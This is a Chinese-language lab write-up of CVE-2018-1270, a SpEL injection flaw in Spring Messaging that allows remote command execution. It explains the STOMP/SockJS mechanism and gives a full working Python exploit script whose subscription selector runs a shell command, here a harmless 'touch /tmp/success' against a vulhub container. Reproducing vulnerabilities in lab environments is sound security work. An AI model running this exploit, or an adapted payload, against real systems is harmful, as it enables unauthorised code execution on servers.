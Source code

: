 （CVE-2018-1270）Spring Messaging 远程命令执行漏洞
==================================================

一、漏洞简介
------------

spring
messaging为spring框架提供消息支持，其上层协议是STOMP，底层通信基于SockJS，

在spring
messaging中，其允许客户端订阅消息，并使用selector过滤消息。selector用SpEL表达式编写，并使用`StandardEvaluationContext`解析，造成命令执行漏洞。

二、漏洞影响
------------

Spring Java Framework \< 5.0

三、复现过程
------------

网上大部分文章都说spring messaging是基于websocket通信，其实不然。spring
messaging是基于sockjs（可以理解为一个通信协议），而sockjs适配多种浏览器：现代浏览器中使用websocket通信，老式浏览器中使用ajax通信。

连接后端服务器的流程，可以理解为：

1.  用[STOMP协议](http://jmesnil.net/stomp-websocket/doc/)将数据组合成一个文本流
2.  用[sockjs协议](https://github.com/sockjs/sockjs-client)发送文本流，sockjs会选择一个合适的通道：websocket或xhr(http)，与后端通信

所以我们可以使用http来复现漏洞，称之为"降维打击"。

我编写了一个简单的POC脚本exploit.py（需要用python3.6执行），因为该漏洞是订阅的时候插入SpEL表达式，而对方向这个订阅发送消息时才会触发，所以我们需要指定的信息有：

1.  基础地址，在vulhub中为`http://your-ip:8080/gs-guide-websocket`
2.  待执行的SpEL表达式，如`T(java.lang.Runtime).getRuntime().exec('touch /tmp/success')`
3.  某一个订阅的地址，如vulhub中为：`/topic/greetings`
4.  如何触发这个订阅，即如何让后端向这个订阅发送消息。在vulhub中，我们向`/app/hello`发送一个包含name的json，即可触发这个事件。当然在实战中就不同了，所以这个poc并不具有通用性。

根据你自己的需求修改POC。如果是vulhub环境，你只需修改1中的url即可。

    CVE-2018-1270.py
    #!/usr/bin/env python3
    import requests
    import random
    import string
    import time
    import threading
    import logging
    import sys
    import json

    logging.basicConfig(stream=sys.stdout, level=logging.INFO)

    def random_str(length):
        letters = string.ascii_lowercase + string.digits
        return ''.join(random.choice(letters) for c in range(length))


    class SockJS(threading.Thread):
        def __init__(self, url, *args, **kwargs):
            super().__init__(*args, **kwargs)
            self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'
            self.daemon = True
            self.session = requests.session()
            self.session.headers = {
                'Referer': url,
                'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'
            }
            self.t = int(time.time()*1000)

        def run(self):
            url = f'{self.base}/htmlfile?c=_jp.vulhub'
            response = self.session.get(url, stream=True)
            for line in response.iter_lines():
                time.sleep(0.5)
        
        def send(self, command, headers, body=''):
            data = [command.upper(), '\n']

            data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))
            
            data.append('\n\n')
            data.append(body)
            data.append('\x00')
            data = json.dumps([''.join(data)])

            response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)
            if response.status_code != 204:
                logging.info(f"send '{command}' data error.")
            else:
                logging.info(f"send '{command}' data success.")

        def __del__(self):
            self.session.close()


    sockjs = SockJS('http://your-ip:8080/gs-guide-websocket')
    sockjs.start()
    time.sleep(1)

    sockjs.send('connect', {
        'accept-version': '1.1,1.0',
        'heart-beat': '10000,10000'
    })
    sockjs.send('subscribe', {
        'selector': "T(java.lang.Runtime).getRuntime().exec('touch /tmp/success')",
        'id': 'sub-0',
        'destination': '/topic/greetings'
    })

    data = json.dumps({'name': 'vulhub'})
    sockjs.send('send', {
        'content-length': len(data),
        'destination': '/app/hello'
    }, data)

执行：

![1.png](./.resource/(CVE-2018-1270)SpringMessaging远程命令执行漏洞/media/rId26.png)

进入容器`docker-compose exec spring bash`，可见`/tmp/success`已成功创建：

![2.png](./.resource/(CVE-2018-1270)SpringMessaging远程命令执行漏洞/media/rId27.png)
